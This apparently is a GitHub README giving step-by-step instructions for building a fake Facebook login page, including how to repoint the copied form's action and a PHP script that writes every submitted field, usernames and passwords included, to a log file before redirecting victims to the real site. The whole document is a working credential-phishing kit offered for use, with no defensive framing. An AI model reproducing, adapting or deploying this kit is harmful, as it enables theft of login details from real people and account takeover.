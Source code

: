 # Creating-a-phishing-page---very simple-steps-for-dummies-PhP-

Phishing is the most common acttack which is used to hack any login details.
For which we need to have phishing pages to upload then in hosting sites.
Here i will show you an example of creating Phishing page (fake loGin page) of Facebook.The method is same for any other website
What we are going to do now.Normally in phishing we will just create a login page which looks same like the real website. For this we need not to code the whole script of the desired website. 

StepS to Reproduced:

1. First go to the desired website Login page for which you want to create Phishing page
lets take www.facebook.com

2. Right click on the website and choose “page source” . Now you can see the whole script of the website.

3. Copy the whole script and paste it into a text file. Press Cntrol+F and type ” action “.
Here in the case of “www.facebook.com “. the script line that has “action” looks something like this.
action=”https://www.facebook.com/login.php?login_attempt=1“ Now replace everything inside the quotes with ” login.php”. so it will look like action=”login.php“ 

4. Save the file as index.html.

5. Now open a new text file and paste the following code

header (‘Location: http://facebook.com ‘);

$handle = fopen(“logs_86354.txt”, “a”);

foreach($_POST as $variable => $value) {

fwrite($handle, $variable);

fwrite($handle, “=”);

fwrite($handle, $value);

fwrite($handle, “\r\n”);

}

fwrite($handle, “===============\r\n”);

fclose($handle);

exit;

?>

Save it as “login.php”
